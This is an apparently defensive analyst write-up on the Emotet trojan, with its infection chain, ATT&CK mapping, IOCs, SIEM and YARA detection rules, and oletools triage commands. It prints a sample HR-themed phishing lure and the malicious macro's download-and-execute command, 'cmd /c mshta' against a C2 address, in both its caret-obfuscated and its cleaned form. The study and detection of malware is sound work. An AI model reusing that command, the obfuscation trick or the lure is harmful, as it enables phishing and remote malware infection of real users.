 # emotet malware analysis complete end-to-end

What is Emotet?
Emotet is a sophisticated, modular banking Trojan that evolved into a botnet used to deliver other types of malware such as ransomware (e.g., Ryuk, Conti) and steal sensitive information. It is primarily known for its highly effective phishing campaigns and worm-like propagation.

Initially discovered in 2014, Emotet was designed to steal banking credentials, but it later developed into a malware-as-a-service (MaaS) platform used by multiple cybercrime groups.

  Why Emotet is famous
1. Modular Architecture
Emotet consists of a main loader and multiple modules. The loader installs Emotet, maintains persistence, and downloads additional modules, including:
- Credential stealer
- Email harvester
- Spam bot
- Malware downloader (for TrickBot, QakBot, Ryuk, etc.)

2. Polymorphic Code
Emotet changes its payload structure frequently to avoid antivirus detection using polymorphism, where the malware dynamically alters its code during replication.

3. Command and Control (C2) Infrastructure
The botnet uses encrypted C2 communication and hardcoded IP lists for redundancy. Its architecture is often peer-to-peer, enhancing its resilience against takedowns.

-------------------------------------------------------------------------------------
Email Lures

From: hr-payroll@company-internal.com
To: employee@company.com
Subject: FY2025 Salary Adjustment Notice

Hi,

We’ve completed the annual compensation review. Your salary adjustment details are in the attached confidential memo.

Please do not share this document externally.

Regards,  
Meera Chauhan  
HR Manager – Compensation  
Company Internal HR  
Attachment: Salary_Adjustment_FY2025.doc
---------------------------------------------------------------------------------------
[Phishing Email]
     |
     v
[Malicious Word/Excel Doc w/ Macro]
     |
     v
[User Enables Macros]  --- the macro code contained the dropper and execution from the trusted paths / folders 
     |
     v
[Emotet Loader Execution]
     |
     v
[Connects to C2 Server]
     |
     +--> [Download Modules]
     |         ├─ Credential Stealer
     |         ├─ Email Stealer
     |         └─ Propagation Tools
     |
     +--> [Dropper for Payloads]
               ├─ TrickBot
               ├─ QakBot
               └─ Ransomware (e.g., Ryuk)

----------------------------------------------------------------
MITRE ATT&CK Mapping for Emotet
Initial Access	Phishing: Spearphishing Attachment -	T1566.001
Execution	User Execution: Malicious Document	- T1204.002
Persistence	Registry Run Keys / Startup Folder -	T1547.001
Privilege Escalation	Process Injection -	T1055
Defense Evasion	Obfuscated Files or Information -	T1027
Credential Access	Credentials from Web Browsers -	T1555.003
Discovery	System Information Discovery -	T1082
Lateral Movement	SMB/Windows Admin Shares -	T1021.002
Command & Control	Encrypted Channel over HTTP/S -	T1573.001
Collection	Email Collection -	T1114
Impact	Data Encrypted for Impact (via Ryuk) -	T1486

----------------------------------------------------------------
Emotet: Indicators of Compromise (IOCs)
Hashes (Sample Payloads)
SHA256: 3c8b3b7db9fcb73a3b55e9e4bb5c9d5c68d42128c87e478f92e165ba2ecf4e2a
SHA256: 21db61f8e72e2b237d84e78c8cbfb3834e38f229e7fcce44edb77293e4e18f3a

Known C2 IPs / Domains (frequently rotate)
185.149.120.14
185.7.214.7
45.95.168.196
forextart.com
gloryhotel[.]top

Filenames Used
INVOICE_458273.doc
Shipment_Tracking_032023.xls
Resume_JamesBrown.doc

File Paths

C:\Users\<username>\AppData\Roaming\Microsoft\Windows\Templates\randomname.exe
C:\ProgramData\<random>.exe

------------------------------------------------------------------

SIEM detection ---

title: Emotet Execution via Office Macros
id: a1b2c3d4-5678-90ab-cdef-1234567890ef
status: stable
description: Detects suspicious use of Office applications spawning PowerShell or CMD indicative of Emotet infection
author: Security_analyst
logsource:
  category: process_creation
  product: windows
detection:
  selection:
    ParentImage|endswith:
      - '\WINWORD.EXE'
      - '\EXCEL.EXE'
    Image|endswith:
      - '\powershell.exe'
      - '\cmd.exe'
  condition: selection
fields:
  - CommandLine
  - ParentImage
  - Image
  - User
  - Hostname
level: high
tags:
  - attack.execution
  - attack.t1204.002
  - malware.emotet

------------------------------------------------
Yara rule 

rule Emotet_Loader_Detection
{
    meta:
        description = "Detects Emotet malware loader"
        author = "security_analyst"
        date = "2025-04-12"
        malware_family = "Emotet"
        reference = "https://malpedia.caad.fkie.fraunhofer.de/details/win.emotet"
    strings:
        $mz = { 4D 5A }                         // PE Header
        $http1 = "GET / HTTP/1.1" ascii
        $ua1 = "User-Agent: Mozilla/5.0" ascii
        $c2str = ".php?id=" ascii
        $exe_indicator = "Software\\Microsoft\\Windows\\CurrentVersion\\Run" ascii
        $randexe = "temp" ascii wide
        $email_harvest = "Outlook.Application" ascii
    condition:
        uint16(0) == 0x5A4D and
        all of ($mz*) and
        3 of ($http1, $ua1, $c2str, $exe_indicator, $email_harvest)
}
----------------------------------------------------------------
Emotet analysis --

sudo mraptor -m emotet.xls -- to detect the macros
sudo msodde -a emotet.xls  -- to detect the DDE links
sudo oleobj emotet.xls -v  -- oleobj is a script to extract embedded objects from OLE files.
sudo olebrowse emotet.xls  -- browser based olevba analysis 
								--- save it in the .bin (stream file)
								
sudo cat stream.bin

sudo oleid emotet.xls  
sudo olevba emotet.xls
sudo olevba emotet.xls --decode  ---  showing all obfuscated strings decoded
sudo olevba emotet.xls --reveal  -- macro source code with VBA strings deobfuscated

----------------
Original: cmd /c m^sh^t^a h^tt^p^:/^/0xb907d607/c^c.h^tm^l"

Cleaned version: cmd /c mshta http://0xb907d607/cc.html

hexadecimal to IP address -- https://www.browserling.com/tools/hex-to-ip
			0xb907d607  === 185.7.214.7

----------------------------------------
sudo qu1cksc0pe --file emotet.xls --vtFile
sudo qu1cksc0pe --file emotet.xls --domain
sudo qu1cksc0pe --file emotet.xls --docs

------------------------------------------------------------


This Excel file contains a hidden malicious macro (a small program) that runs automatically when the file is opened. Here's what it does:

1. What Happens When You Open the File?
The macro Auto_Open triggers immediately (like an autostart virus).

It runs a hidden command that downloads and executes malware from a attacker’s server.

2. The Malicious Command (Deobfuscated)
The macro contains an obfuscated (hidden) command:

cmd
cmd /c mshta http://0xb907d607/cc.html
cmd /c → Runs a command in the Windows terminal.

mshta → Executes a malicious HTML file (often used to run scripts silently).

http://0xb907d607/cc.html → An attacker-controlled website (IP in hex: 185.7.214.7).

3. What Does This Do?
Downloads malware from http://185.7.214.7/cc.html.

Executes it silently using mshta (Microsoft HTML Application).

Likely installs Emotet (a dangerous banking trojan/spyware) or ransomware.

4. Red Flags
Auto-execution (runs as soon as Excel opens).
Obfuscated URLs (hidden in hex & with ^ to evade detection).
Uses mshta (a common malware trick to bypass security).
Connects to a shady IP (185.7.214.7 – likely a malware server).
